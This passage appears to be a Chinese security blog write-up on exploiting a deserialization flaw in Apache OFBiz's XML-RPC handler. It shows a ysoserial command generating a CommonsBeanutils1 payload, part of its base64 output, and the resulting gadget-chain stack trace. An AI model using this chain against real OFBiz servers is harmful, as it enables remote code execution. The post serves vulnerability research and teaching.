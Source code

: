 ![image-20200922105244816](https://blog-1252261399.cos.ap-beijing.myqcloud.com/images/image-20200922105244816.png)

### 漏洞利用

`Ofbiz`中存在Commons-Beanutils库，所以使用ysoserial直接生成CommonsBeanutils1的payload

```
> java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 calc | base64 |tr -d "\n"
rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4KxAwACSQAEc2l6ZUwACmNvbXBhcmF0b3J0ABZMamF2YS91dGlsL0NvbXBhcmF0b3I7eHAAAAACc3IAK29yZy5hcGFjaGUuY29tbW9ucy5iZ...
```

填充serialized_data并发送

![image-20200921191012365](https://blog-1252261399.cos.ap-beijing.myqcloud.com/images/image-20200921191012365.png)

调用链

```
java.lang.RuntimeException: InvocationTargetException: java.lang.reflect.InvocationTargetException
	at org.apache.commons.beanutils.BeanComparator.compare(BeanComparator.java:171) ~[commons-beanutils-1.9.3.jar:1.9.3]
	at java.util.PriorityQueue.siftDownUsingComparator(PriorityQueue.java:721) ~[?:1.8.0_141]
	at java.util.PriorityQueue.siftDown(PriorityQueue.java:687) ~[?:1.8.0_141]
	at java.util.PriorityQueue.heapify(PriorityQueue.java:736) ~[?:1.8.0_141]
	at java.util.PriorityQueue.readObject(PriorityQueue.java:795) ~[?:1.8.0_141]
	at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method) ~[?:1.8.0_141]
	at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62) ~[?:1.8.0_141]
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43) ~[?:1.8.0_141]
	at java.lang.reflect.Method.invoke(Method.java:498) ~[?:1.8.0_141]
	at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058) ~[?:1.8.0_141]
	at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2136) ~[?:1.8.0_141]
	at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2027) ~[?:1.8.0_141]
	at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1535) ~[?:1.8.0_141]
	at java.io.ObjectInputStream.readObject(ObjectInputStream.java:422) ~[?:1.8.0_141]
	at org.apache.xmlrpc.parser.SerializableParser.getResult(SerializableParser.java:36) ~[xmlrpc-common-3.1.3.jar:3.1.3]
	at org.apache.xmlrpc.parser.RecursiveTypeParserImpl.endValueTag(RecursiveTypeParserImpl.java:78) ~[xmlrpc-common-3.1.3.jar:3.1.3]
	at org.apache.xmlrpc.parser.MapParser.endElement(MapParser.java:185) ~[xmlrpc-common-3.1.3.jar:3.1.3]
	at org.apache.xmlrpc.parser.RecursiveTypeParserImpl.endElement(RecursiveTypeParserImpl.java:103) ~[xmlrpc-common-3.1.3.jar:3.1.3]
	at org.apache.xmlrpc.parser.XmlRpcRequestParser.endElement(XmlRpcRequestParser.java:165) ~[xmlrpc-common-3.1.3.jar:3.1.3]
	at org.apache.xerces.parsers.AbstractSAXParser.endElement(Unknown Source) ~[xercesImpl-2.9.1.jar:?]
	at org.apache.xerces.impl.XMLNSDocumentScannerImpl.scanEndElement(Unknown Source) ~[xercesImpl-2.9.1.jar:?]
	at org.apache.xerces.impl.XMLDocumentFragmentScannerImpl$FragmentContentDispatcher.dispatch(Unknown Source) ~[xercesImpl-2.9.1.jar:?]
	at org.apache.xerces.impl.XMLDocumentFragmentScannerImpl.scanDocument(Unknown Source) ~[xercesImpl-2.9.1.jar:?]
	at org.apache.xerces.parsers.XML11Configuration.parse(Unknown Source) ~[xercesImpl-2.9.1.jar:?]
	at org.apache.xerces.parsers.XML11Configuration.parse(Unknown Source) ~[xercesImpl-2.9.1.jar:?]
	at org.apache.xerces.parsers.XMLParser.parse(Unknown Source) ~[xercesImpl-2.9.1.jar:?]
	at org.apache.xerces.parsers.AbstractSAXParser.parse(Unknown Source) ~[xercesImpl-2.9.1.jar:?]
	at org.apache.xerces.jaxp.SAXParserImpl$JAXPSAXParser.parse(Unknown Source) ~[xercesImpl-2.9.1.jar:?]
	at org.apache.ofbiz.webapp.event.XmlRpcEventHandler.getRequest(XmlRpcEventHandler.java:285) ~[ofbiz.jar:?]
	at org.apache.ofbiz.webapp.event.XmlRpcEventHandler.execute(XmlRpcEventHandler.java:229) [ofbiz.jar:?]
```
